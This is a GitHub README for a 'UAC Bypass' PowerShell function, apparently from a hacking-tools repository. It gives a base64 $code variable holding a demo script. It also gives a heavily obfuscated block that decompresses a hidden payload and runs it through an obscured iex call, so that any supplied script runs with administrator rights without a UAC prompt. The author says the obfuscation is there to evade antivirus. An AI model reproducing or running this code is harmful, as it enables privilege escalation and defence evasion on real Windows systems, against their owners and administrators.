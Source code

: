 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# UAC Bypass

## Description

This is a bonus function I am including with this repository. It will allow you to run any base64 encoded script from a standard Powershell console regardless
if Admin Privledges are required. It will open an Admin prompt and execute your code bypassing the UAC. In order to get this past the Anti Virus I have to heavily 
obfuscate it. So with that being said you really should not run code if you do not know what it does so user discretion is advised. 

## The Function

### [UAC-Bypass] 

This function has 2 parts. 

You have the ```$code``` variable you can store any base64 encoded script into. 

You can use my [Text to Base64](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/B64.md) function to encode your own scripts.

```
$code = "TgBlAHcALQBJAHQAZQBtACAAQwA6AFwASQB0AC0AVwBvAHIAawBlAGQALgB0AHgAdAA="
```
Next you have a highly obfuscated block of code that will run any Base64 encoded script stored in the ```$code``` variable with Admin rights. 

Using the code above as an example running both of these in a standard non Admin Powershell console will create a file called ```It-Worked.txt``` in your 

C: directory just to show you it works.

```
(New-OBJEct SYsTEm.IO.StReamREADer( (New-OBJEct  iO.COmpREssioN.dEflAtEstrEam([SYStEm.Io.mEMoRYStREAm] [CoNVERT]::fROmBAse64STrING( 'hY6xCsIwFEV/5RG6ph0ci1MHBZEOQacsobmtQtKEvEj9fJuC4FT3e849VX89HUUMCxI/4FyNN0hiHqgaggWJNmEiYy2J86W7aRXGvJgE3TnDDNZ18JNWBdV9xKyH4L2ZraDGUrXKqRn/KTxLRs7PeWLdvdIdaaNFUYvCj8GuBxGp1LUqm5SlckAkyXTY9BYOGbuR4puyv/2t2ZAP'),[sySteM.iO.COmPREsSion.COMprEssIONmODe]::decOMpreSS ) ) , [tExt.eNcODINg]::ascIi)).rEAdToEND( )|& ( $SHELLId[1]+$ShELLid[13]+'X')
```

<p align="right">(<a href="#top">back to top</a>)</p>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

I am Jakoby
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
